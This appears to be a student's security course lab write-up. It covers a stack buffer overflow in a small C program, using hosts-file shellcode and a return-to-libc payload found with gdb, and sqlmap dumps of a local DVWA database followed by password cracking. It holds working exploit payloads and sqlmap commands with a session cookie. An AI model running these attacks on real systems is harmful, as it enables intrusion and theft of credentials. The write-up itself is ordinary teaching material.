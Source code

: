 # Lab #1, 20110431, Tang Tam Nhu, INSE3308E_03FIE

# Task 1: Software buffer overflow attack

Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```

and a shellcode in asm. This shellcode add a new entry in hosts file

```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```

**Question 1**:

- Compile asm program and C program to executable code.
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is added to the /etc/hosts file on your linux.
  You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  **Answer 1**: Must conform to below structure:

Description text (optional)
- Stack frame of `vuln.c`:
  
![stackframe](https://github.com/user-attachments/assets/6ba7454b-8817-4dd2-83ab-c08021280a03)

- Compile asm program and C program to executable code.
  
![img0](https://github.com/user-attachments/assets/9fb357a1-a96b-4222-a489-8c23dcb38f00)

- Use an older bash and turn off randomly given stack value.

![img1](https://github.com/user-attachments/assets/e0baee2c-9e03-48e1-a838-cf14988c5286)

- Create environmet variable `preload` with `export`
  
![img2](https://github.com/user-attachments/assets/5eba5ab4-e8e3-4348-b619-e1961e175895)

- We need to find the address of `system`, `exit` and `preload` variable. Load `vuln.out` into `gdb` and find them.
  - Address value of system: `0xf7e50db0` will be inserted with format `\xb0\x0d\xe5\xf7`
  - Address value of exit: `0xf7e449e0` will be inserted with format `\xe0\x49\xe4\f7`
  - Address value of the string of `preload`: 0xffffde32 will be inserted with format `\x32\xde\xff\xff`
 
![img3](https://github.com/user-attachments/assets/cfe172ed-b234-4c03-8190-4f101d198441)

- Look at stack frame, we have to insert 20 bytes of padding, the next 4 bytes are the system address, the next 4 bytes are exit and the last 4 bytes are preload. So our command is:
```
r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x32\xde\xff\xff')")
```
![frame-system](https://github.com/user-attachments/assets/200582bf-198b-48b6-8522-e91b596af9ac)
![img4](https://github.com/user-attachments/assets/7eda45ff-b92b-43a1-8199-a9f8d24dd397)


output screenshot (optional)

- Before
  
![img5](https://github.com/user-attachments/assets/dc9d261e-99df-48b1-81f1-448eba44af4f)

- After

![win](https://github.com/user-attachments/assets/529baffe-f153-42df-831c-afeba8a4e703)


**Conclusion**: The buffer overflow vulnerability in the C program was successfully exploited using shellcode injection, return-to-lib-c.

# Task 2: Attack on the database of Vulnerable App from SQLi lab

- Start docker container from SQLi.
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup.

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
- Use them command below to get information about all available databases
```
run `python3 sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=kdmmsrmp3voj7k0alb3e9bfgb6; security=low" --dbs
```
- The back-end database is: `MySQL`, it has two database is
  - dvwa
  - infomation_schema
  
![sql1](https://github.com/user-attachments/assets/c1ec353e-32ea-46e5-be69-ed3ec890d90c)

- In database `dvwa`
  
![sql2](https://github.com/user-attachments/assets/471338dd-0a6d-4d56-b90b-30083f5f954d)


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
- Use the command below to get users information and crack the password.
```
python3 sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=kdmmsrmp3voj7k0alb3e9bfgb6; security=low" --dump
```
![sql3](https://github.com/user-attachments/assets/cd3646a5-b1d0-45a6-b747-251d5c08b781)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

![sql4](https://github.com/user-attachments/assets/35c2cee2-bd31-41b3-8a79-adb25828302f)
